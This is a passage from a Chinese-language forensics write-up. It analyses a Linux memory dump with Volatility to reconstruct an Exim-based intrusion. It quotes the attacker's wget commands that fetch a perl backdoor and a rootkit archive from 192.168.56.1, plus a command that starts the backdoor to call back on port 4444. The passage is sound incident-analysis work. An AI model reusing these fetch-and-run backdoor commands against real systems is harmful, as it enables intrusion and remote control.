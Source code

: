 ```
python vol.py -f ./victoria-v8.memdump.img --profile=LinuxDebian5010x86 linux_netstat
```

我们可以查看各种网络相关信息,如网络连接,路由表,接口状态 等。

[![](https://p4.ssl.qhimg.com/t0152ace4de5acebb0c.png)](https://p4.ssl.qhimg.com/t0152ace4de5acebb0c.png)

我们可以看到 与 292.168.56.1相关的网络连接情况，一个是4444端口，一个是8888端口，

通过

```
python vol.py -f ./victoria-v8.memdump.img --profile=LinuxDebian5010x86 linux_bash
```

我们可以查看bash的历史记录

[![](https://p0.ssl.qhimg.com/t0178879f73b19c34c1.png)](https://p0.ssl.qhimg.com/t0178879f73b19c34c1.png)

我们看到，通过scp命令复制了 exim4目录下的所有文件，另外，我们在/mnt/var/log/exim4 目录下的Exim reject log 中看到，



```
wget http://192.168.56.1/c.pl -O /tmp/c.pl
wget http://192.168.56.1/rk.tar -O /tmp/rk.tar; sleep 1000
```

两条命令，似乎从192.168.56.1下载了东西。

攻击者已经下载了两个文件c.pl和rk.tar，都在/ tmp中。

c.pl的简单分析表明，它是一个perl脚本，用于创建一个c程序，该程序编译给支持SUID的可执行文件

打开一个后门并向攻击者发送信息。

c.pl被下载，并且编译的SUID在端口4444中打开了一个到192.168.56.1的连接，如下所示：

```
wget http://192.168.56.1/c.pl -O /tmp/c.pl;perl /tmp/c.pl 192.168.56.1 4444
```

以及，在python vol.py -f ./victoria-v8.memdump.img –profile=LinuxDebian5010x86 linux_bash，我们还看到了攻击者一个奇怪的操作。

[![](https://p3.ssl.qhimg.com/t01b049131a3dd08649.png)](https://p3.ssl.qhimg.com/t01b049131a3dd08649.png)

攻击者将 /dev/sda1整个dump下来，并通过 8888端口发送了出去。

Exim reject日志显示IP 192.168.56.101作为要发送邮件的主机：

abcde.com，owned.org和h0n3yn3t-pr0j3ct.com



```
H=(abcde.com) [192.168.56.101]
H=(0wned.org) [192.168.56.101]
H=(h0n3yn3t-pr0j3ct.com) [192.168.56.101]
```
